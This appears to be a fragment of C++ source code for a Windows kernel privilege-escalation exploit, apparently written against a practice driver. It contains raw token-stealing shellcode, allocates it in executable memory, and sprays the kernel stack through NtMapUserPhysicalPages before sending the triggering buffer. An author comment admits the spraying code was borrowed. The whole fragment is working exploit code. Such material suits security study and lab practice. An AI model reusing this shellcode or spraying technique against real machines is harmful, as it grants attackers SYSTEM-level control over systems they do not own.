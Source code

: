 ```c++

	//-------------------------------------------------
	// our shellcode payload
	//-------------------------------------------------

	char shellcodePayload[] = (
		"\x60"
		"\x64\xA1\x24\x01\x00\x00"
		"\x8B\x40\x50"
		"\x89\xC1"
		"\x8B\x98\xF8\x00\x00\x00"
		"\xBA\x04\x00\x00\x00"
		"\x8B\x80\xB8\x00\x00\x00"
		"\x2D\xB8\x00\x00\x00"
		"\x39\x90\xB4\x00\x00\x00"
		"\x75\xED"
		"\x8B\x90\xF8\x00\x00\x00"
		"\x89\x91\xF8\x00\x00\x00"
		"\x61"
		"\x5d"
		"\xc2\x08\x00"
		);

	LPVOID shellcode_address = VirtualAlloc(NULL,
		sizeof(shellcodePayload),
		MEM_RESERVE | MEM_COMMIT,
		PAGE_EXECUTE_READWRITE);

	memcpy(shellcode_address, shellcodePayload, sizeof(shellcodePayload));
	std::cout << "[+] Shellcode allocated at " << std::hex << shellcode_address << std::endl;

	LPVOID shellcodePointerSpray = &shellcode_address;

	//-------------------------------------------------
	// stack spraying
	//-------------------------------------------------
	int BaseAddress = 0;
	char Page_Frame_Numbers[4096] = { 0 };
	for (int i = 0; i < 512; i++) {
		memcpy((Page_Frame_Numbers + (i * 4)), shellcodePointerSpray, 4);
	}
	std::cout << "\t[+] Spraying 512 pages" << std::endl;

	for (int i = 512; i < 1024; i++) {
		memcpy((Page_Frame_Numbers + (i * 4)), shellcodePointerSpray, 4);
	}
	std::cout << "\t[+] Sprayed 1024 pages" << std::endl;
	std::cout << "\t[+] Spraying is now complete" << std::endl;

	std::cout << "[+] Mapping the memory pages with NtMapUserPhysicalPages\n";
	_NtMapUserPhysicalPages NtMapUserPhysicalPages = (_NtMapUserPhysicalPages)GetProcAddress(GetModuleHandleW(L"ntdll.dll"), "NtMapUserPhysicalPages");
	// legit just found someone elses code for this that worked, tried to explain it the best to my ability on my blog post
	NtMapUserPhysicalPages(&BaseAddress, 1024, (PBYTE)&Page_Frame_Numbers);

	//-------------------------------------------------
	// stack spraying
	//-------------------------------------------------

	DWORD sizeReturn = 0x0;
	char userBuffer[] = "\x41\x41\x41\x41";
	std::cout << "[+] Sending final buffer of size: " << sizeof(userBuffer) << std::endl;
```